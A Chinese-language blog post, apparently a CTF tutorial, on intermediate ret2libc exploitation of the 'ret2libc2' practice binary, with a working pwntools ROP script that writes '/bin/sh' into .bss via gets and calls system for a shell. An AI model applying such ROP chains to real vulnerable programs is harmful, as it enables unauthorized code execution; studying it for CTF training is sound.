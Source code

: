 # Pwn-ROP-ret2libc-中级


# 中级

中级ret2libc是指：程序中plt段包含system但是找不到/bin/sh字符串。这里大概的想法就是：因为一般的程序中输入可能需要用到gets函数，如果程序的数据段：一般是.bss段（拥有比较大的内存空间）有空余的空间（未使用的变量），可以通过gets输入到该区域中，然后直接使用即可。

> 如果直接跳转到plt中的函数地址，那么需要先在栈中放入返回地址，再放入参数

# 实例

这里以 bamboofox 中的 ret2libc2 为例

点击下载: [ret2libc2](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2libc/ret2libc2/ret2libc2)

该题目与例 1 基本一致，只不过不再出现 /bin/sh 字符串，所以此次需要我们自己来读取字符串，所以我们需要两个 gadgets，第一个控制程序读取字符串，第二个控制程序执行 system("/bin/sh")。由于漏洞与上述一致，这里就不在多说，具体的 exp 如下

```
##!/usr/bin/env python
from pwn import *

sh = process('./ret2libc2')

gets_plt = 0x08048460
system_plt = 0x08048490
pop_ebx = 0x0804843d
buf2 = 0x804a080
payload = flat(
    ['a' * 112, gets_plt, pop_ebx, buf2, system_plt, 0xdeadbeef, buf2])
sh.sendline(payload)
sh.sendline('/bin/sh')
sh.interactive()
```

需要注意的是，我这里向程序中 bss 段的 buf2 处写入 /bin/sh 字符串，并将其地址作为 system 的参数传入。这样以便于可以获得 shell。


---

> 作者: alextang  
> URL: https://alextang.top/articles/2023/09/pwn-rop-ret2libc-%E4%B8%AD%E7%BA%A7/  

